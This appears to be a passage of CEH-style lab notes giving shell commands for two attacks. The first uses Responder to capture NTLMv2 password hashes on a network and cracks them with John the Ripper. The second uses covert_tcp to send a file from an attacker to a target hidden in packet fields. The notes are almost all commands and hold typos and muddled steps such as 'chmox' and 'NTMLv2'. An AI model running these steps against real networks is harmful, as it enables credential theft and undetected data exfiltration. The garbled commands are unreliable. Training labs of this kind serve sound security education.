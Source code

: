 **Perform Active Online Attack to Crack the System's Password using Responder**


**Linux:**

cd
cd Responder
chmox +x ./Responder.py
sudo ./Responder.py -I eth0
passwd: ****

**Windows**

run
\CEH-Tools

**Linux:**

Home/Responder/logs/SMB-NTMLv2-SSP-[IP].txt
sudo snap install john-the-ripper
passwd: ****
sudo john /home/ubuntu/Responder/logs/SMB-NTLMv2-SSP-10.10.10.10.txt

**Covert Channels using Covert_TCP**

**Attacker:**

cd Desktop
mkdir Send
cd Send
echo "Secret"->message.txt
Place->Network
Ctrl+L
smb://[IP]
Account & Password
copy and paste covert_tcp.c
cc -o covert_tcp covert_tcp.c

**Target:**

tcpdump -nvvx port 8888 -I lo
cd Desktop
mkdir Receive
cd Receive
File->Ctrl+L
smb://[IP]
copy and paste covert_tcp.c
cc -o covert_tcp covert_tcp.c
./covert_tcp -dest 10.10.10.9 -source 10.10.10.13 -source_port 9999 -dest_port 8888 -server -file /home/ubuntu/Desktop/Receive/receive.txt
Tcpdump captures no packets

**Attacker**

./covert_tcp -dest 10.10.10.9 -source 10.10.10.13 -source_port 8888 -dest_port 9999 -file /home/attacker/Desktop/send/message.txt
Wireshark (message string being send in individual packet)
